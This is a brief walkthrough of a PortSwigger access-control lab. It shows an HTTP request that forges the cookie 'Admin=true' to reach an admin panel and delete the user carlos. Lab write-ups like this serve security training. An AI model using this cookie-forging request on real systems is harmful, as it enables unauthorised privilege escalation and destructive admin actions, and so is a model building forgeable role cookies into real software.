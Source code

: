 # [Lab: User role controlled by request parameter](https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter)

This lab has an admin panel at  `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user  `carlos`.

You can log in to your own account using the following credentials:  `wiener:peter`

## Analysis

original request:

```http
GET /my-account?id=wiener HTTP/1.1
Host: id.web-security-academy.net
Cookie: Admin=false; session=PBGX9cSFeB9Eo2SIowHHg3QCVHGbL4wn
```

vuln: identifies administrators using a forgeable cookie

## Solution

malicious request:

```http
GET /admin/delete?username=carlos HTTP/1.1
Host: id.web-security-academy.net
Cookie: Admin=true; session=PBGX9cSFeB9Eo2SIowHHg3QCVHGbL4wn
```
